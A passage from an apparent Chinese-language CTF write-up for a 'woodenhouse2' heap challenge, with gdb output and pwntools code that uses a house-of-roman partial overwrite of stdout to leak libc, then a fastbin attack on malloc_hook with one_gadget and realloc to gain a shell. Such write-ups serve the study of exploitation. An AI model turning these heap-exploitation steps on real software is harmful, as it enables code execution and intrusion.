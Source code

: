 ![woodenhouse2-1](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/woodenhouse2-1.png)

覆盖***main_arena+0x88***低位为0x25dd，O_2_1 stderr+0x157 的位置正好满足fastbin attack的条件。不过在ASLR开启之后，低三位偏移还是固定的，但是高的一位有1/16的几率正确。覆盖之后的效果。（write_base地址没改成功。。）

 ```
gef➤  p _IO_2_1_stdout_
$1 = {
  file = {
    _flags = 0xfbad1800, 		<--flag 修改为0xfbad1800
    _IO_read_ptr = 0"\n", 
    _IO_read_end = 0 "\n", 
    _IO_read_base = 0 <_IO_2_1_stdout_+131> "\n", 
    _IO_write_base = 0x7ffff7dd26a3 <_IO_2_1_stdout_+131> "\n", 
    _IO_write_ptr = 0x7ffff7dd26a3 <_IO_2_1_stdout_+131> "\n", 
    _IO_write_end = 0x7ffff7dd26a4 <_IO_2_1_stdout_+132> "",  <--低位写\x00
    _IO_buf_base = 0x7ffff7dd26a3 <_IO_2_1_stdout_+131> "\n", 
    _IO_buf_end = 0x7ffff7dd26a4 <_IO_2_1_stdout_+132> "", 
    _IO_save_base = 0x0, 

 ```

我们通过house of roman部分地址写，来爆破stdout的地址，然后通过IO_FILE来泄露地址。

```python
#house of roman
edit(0,(0x50+0x2),p64(0)*9+p64(0x71)+"\xdd\x25") #fastbin -> stdout
malloc(0x65,"malloc")
flag=0xfbad1800
malloc(0x65,"\x00"*3+p64(0)*0x6+p64(flag)+p64(0x4141414141414141)*3+"\x00")

#0x7ffff7a89b00-0x00007ffff7a0d000
recv=u64(p.recv(8))
libc=recv-(0x7ffff7a89b00-0x00007ffff7a0d000)
print "[*]recv="+hex(recv)
print "[*]libc="+hex(libc)
p.recvuntil("Your choice:")
```

继续fastbin attack，直接修改malloc_hook的值。不过所有的one_gadget都不可用，于是还是通过realloc来修改栈环境，然后one_gadget ，Getshell.

```python
malloc(0x20,"fastbin")
malloc(0x65,"attack")
free(5)
edit(0,0x3000,p64(0)*21+p64(0x71)+p64(malloc_hook-0x23))
malloc(0x65,"get")
malloc(0x65,"\x00"*3+p64(0)+p64(one_gadget)+p64(realloc))

p.recvuntil("Your choice:")
p.sendline(str(1))
p.recvuntil("Please enter the length of item name:")
p.sendline(str(0x20))
```
